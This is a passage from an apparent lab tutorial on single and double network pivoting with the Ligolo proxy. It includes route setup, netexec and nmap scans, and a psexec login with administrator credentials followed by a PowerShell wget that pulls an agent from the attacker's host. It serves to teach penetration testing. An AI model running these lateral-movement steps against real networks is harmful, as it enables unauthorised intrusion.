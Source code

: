 In the single pivoting scenario, the aim is to access Network B while staying within the boundaries of Network                                 

                                      ![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjuhNXjCf1K26YEXV5c4rv03GPpQjqsb2uCwj-jXjRxTE4rhCmbvOu9ieAtg6SbPwwoEbGxPyVwe-vmNfm0mDC8M6qKAMzYCEFaGOR2rOYHA3r4zu1EFn1o2xyqE7wn6uzGlFxxcF86z2Xc_LqU4ONH76OSI2Bf_RJdm4Ard2xX0KNgrpV9KVuBNC-7Y5NS/s16000/8_0.png)

Attempting a direct ping to Network B reveals, as illustrated in the image below, the impossibility due to different network configuration.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgTr1lQLH_QAds0wtEHOJtkiXYnsLPFe6gSo7m9R5fY-h8AfdVsORDvkJMnthJnwMmB5j0kassK4zBRJHppctiKZsBq13A12oFfLh6tn39lNff8y2mjouY5PCI8tO3pnI-7KdHzJyvza0wqmaIP3-KutuiDWUV1BMlgtocQbDUyk7AJaVTJGuhQKDUwKHhC/s16000/8_1.png)

To progress towards the single pivoting objective, a new terminal window will be opened. Subsequently, the internal IP will be added to the IP route, and the addition will be confirmed, as illustrated in the image below, utilizing the following commands:

ip route add 192.168.148.0/24 dev ligolo

ip route list

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhv5KFovvhujze3Rp-BDiPDoA2qxRzDZ4rF4pggTVa2FBQV0rvuIjJjvo16PmlP84xixcOOWRX7FSsLHwkiGj5j2xNlnZZ1F_p-wqsNe_sLR-59IfLCu7MYausTJk_IFwFN3Xz40OYh6CKM8fqJb1F9tFyd6l-A4S8nOqZlx0UKUf1vqkZcGRVmrJyxc0p6/s16000/9.png)

Return to the Ligolo proxy session window and initiate the tunneling process by entering the ‘start’ command, as demonstrated in the provided image.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh16KQ11MS_-BFE50-hjsjAcalJltSNBCWYwLWEYhwOMZA9h9yiuoO9yUuiXlNREypvOPZcPRmpUCTRzGFE3OEKHG20e6Tscak_yNCpVVvxLFr3r1BopOkrG0KKIMB3pkc52vc45snlppv6l-nK17ZFKZ9hyqPOdPQI09QJUVe_yNTx5kk1ruMxMxdZNSq7/s16000/10.png)

Upon establishing a tunnel into network B, we executed the netexec command to scan the network B subnet, unveiling an additional Windows 10 entity distinct from DC1, as depicted in the image.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjKTkUrmmA4RmLiSmEJdKIs82QzwlXMuOfRDWPrhj3fPP90p3vH18fMHV3_wLy5SdF9y6L6wA7hdmkKgTPvNPnmowobWrfQJm78tVCbnWxEcOr2iqHZJSXaYMhvlbGbwuyLwWxO_Hh6botPln7Yl2Xt1m8NeAQLGSEy-tw8NrmbITz2hKuGeD14CqJCwEFy/s16000/11.png)

Upon attempting to ping the IP now, successful ping responses will be observed, a contrast to the previous unsuccessful attempts. Additionally, a comprehensive nmap scan can be conducted, as illustrated in the image below.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEi_Z9JA9DDc7uaROLGl5ROO9regLfIpStCky4Y4j-2Mk10DrrqFVvNMGpdS9hMZickHcpZI1LQAnHlyVB-2dRp9Qfx9R-VtWWdtl2mDs2ugoouxo3PKTnNyFCVW1L-_6dK34X92eFafY4Z-WS6GquAowgAfxnf_5U41CLwIUxWb2YM3t98yW0_J5HRP2N9T/s16000/12.png)

### Double Pivoting

In the process of double pivoting, our objective is to gain access to Network C from Network A, utilizing Network B as an intermediary.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj8GwMd8Uw6hMmZMZkCFK5YxCN4_MdmMidck5qBewqXnK9DLeg0rcJDil9byRvMqwTeJf9YNRlXvDRPV7dk2_ozbS_l9eL0EHBNtV0irevhGHdYEZ5NOeeUK0y3YFrjLGq5HfJ5wPu9KRNp2YoUy8qPpqQzWlcERizYnsiM5xQ7uvhJH08Jl8NDelgH0Diq/s16000/12_1.png)

From the newly opened terminal window, utilize the Impacket tool to access the identified Windows 10 with the IP 192.168.148.132. Following this, execute the subsequent set of commands to download the Ligolo agent onto Windows 10

impacket-psexec administrator:123@192.168.148.132

cd c:\users\public

powershell wget 192.168.1.5/agent.exe -o agent.exe

dir

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgRmyizQf5ZvDngD2D725UxM6q2-FhyphenhyphenlvpTNsqh5RCNbPWc9LF40QQgeuM0f9_kOi_sN6McPUu_bfO3C4ozNJUoclCbQAQ7hDDJu_19lRt2pJOoeRrVkzxur-almmlPKFWEHwNEl79YSsFx4Iczsu5WkQuV8uTVcCBvj4pcGjvdEYXQdneqt2D1jMj-uxS2/s16000/13.png)
